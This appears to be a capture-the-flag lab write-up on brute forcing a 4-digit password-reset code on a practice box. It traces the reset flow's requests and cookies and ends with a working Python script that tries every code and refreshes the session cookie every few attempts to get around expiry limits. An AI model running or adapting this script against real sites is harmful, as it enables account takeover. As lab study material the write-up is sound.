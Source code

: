 # Brute forcing 4-digit code

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (see next step)&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**(3)** Enter recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (/reset\_password.php) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work itself when brute forcing.
2. It appears that the application has an internal clock which controls the expiration of the cookie. Thus, even if we were to utilize the method in part 1, the application will reject our request. To workaround this, we have to programmatically send a request: `GET /index.php`, with no cookies, to retrieve a fresh cookie from the application (refer to part 5 in the overview section above).



```python
import requests


N = 8
MAX_CODE = 9999
IP = '10.10.187.29'
PORT = 1337
URL = f'http://{IP}:{PORT}'
EMAIL = 'tester@hammer.thm'

headers = {
    'Host': f'{IP}{PORT}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
}


def retrieve_new_session():
    with requests.Session() as s:
        # session is updated automatically
        s.get(f'{URL}/index.php', headers=headers)

    return s


def enter_email(s):
    data = {
        'email': EMAIL
    }

    s.post(f'{URL}/reset_password.php',
           headers=headers, data=data)


def logout(s):
    # GET /logout.php
    s.get(f'{URL}/logout.php',
          headers={**headers,
                   'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                   'Referer': 'http://10.10.187.29:1337/reset_password.php'})


def brute_force():

    try:

        # retrieve initial session
        s = retrieve_new_session()

        # enter email
        enter_email(s)

        iterations = MAX_CODE+1

        for i in range(iterations):

            if i % N == 0 and i != 0:
                print('[INFO] Retrieving new PHPSESSID')

                # # reset PHPSESSID
                # logout(s)

                # request for a new PHPSESSID
                s = retrieve_new_session()

                # enter email
                enter_email(s)

            code = f'{i:04d}'

            data = {
                'recovery_code': code,
                's': 200
            }

            print(f'[INFO] Trying code={code}')

            res = s.post(f'{URL}/reset_password.php',
                         headers=headers, data=data)

            res_text = res.text
            res_status_code = res.status_code
            res_content_length = len(res.text)
            req_cookies = s.cookies.get_dict()

            # print(res_text)

            print(f'[INFO] status={res_status_code} content_length={
                res_content_length} cookies={req_cookies}')

            # wrong code
            if 'Invalid or expired recovery code!' in res_text:
                print('[INFO] Wrong code!')

            # valid code found
            else:
                print('[INFO] Success!')
                print(f'code={code}')
                exit()

    except KeyboardInterrupt:
        exit()


brute_force()

```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
